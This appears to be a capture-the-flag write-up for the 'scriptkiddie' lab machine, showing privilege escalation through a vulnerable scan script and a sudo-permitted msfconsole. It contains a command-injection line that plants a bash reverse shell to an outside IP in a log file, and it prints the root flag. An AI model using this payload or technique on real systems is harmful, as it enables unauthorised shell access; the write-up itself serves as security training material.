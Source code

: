 # Lets now enumerate for root

## machine has wget and nc so i thing we will run linpeas
### found nothing on linpeas but finding we found a pwn user and a file owned by pwn
``` bash
ls
kid  pwn
kid@scriptkiddie:/home$ cd pwn/
kid@scriptkiddie:/home/pwn$ ls
recon  scanlosers.sh
kid@scriptkiddie:/home/pwn$ ls -la
total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh
drwxrw---- 2 pwn  pwn  4096 Jun 15 07:00 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh
kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
kid@scriptkiddie:/home/pwn$ 
```

## so this file we can echo with a reverse shell and get the pwn user which has high privilage than kid this file also writes into hacker file so lets get it

``` bash
kid@scriptkiddie:~/logs$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.33/4444 0>&1' #" >>hackers
```

## after running this we have a shell as pwn

``` bash
pwn@scriptkiddie:~$ whoami
whoami
pwn
pwn@scriptkiddie:~$ 
```

## so now lets run sudo -l

``` bash

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

## so we can run metasploit as root lets run it

## running the metasploit with sudo gives us
``` bash
msf6 > id
stty: 'standard input': Inappropriate ioctl for device
[*] exec: id

uid=0(root) gid=0(root) groups=0(root)
```

## so lets grab root flag

``` bash
 cat root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat root.txt

2caada03235b30ef66a32a774b3a6c4e
```

# so we have root shell hence we pwned the machine
